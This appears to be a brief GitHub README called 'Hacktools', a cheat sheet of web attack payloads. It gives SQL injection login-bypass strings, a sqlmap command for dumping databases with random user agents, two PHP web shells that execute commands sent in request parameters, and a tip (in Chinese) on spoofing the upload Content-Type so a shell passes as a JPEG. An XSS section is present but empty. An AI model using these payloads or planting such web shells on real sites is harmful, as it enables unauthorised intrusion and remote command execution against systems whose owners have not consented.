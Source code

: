 # Hacktools

# SQLI
## Easy command
'OR 1=1-- <br>
'OR '1'='1'--'

## Autotools
sqlmap -u "target-url" -p your-parament --thread 10 --random-agent --batch --dbs


# XSS


# php file upload webshell

```
<?php system($_REQUEST["cmd"]);?> 
<?php echo shell_exec($_GET['cmd']);?> 
```
or <br>
將 Content-Type: application/x-php 換成 /image/jpeg


https://github.com/Kazusa613732/Hitmap-ver.1/blob/main/README.md
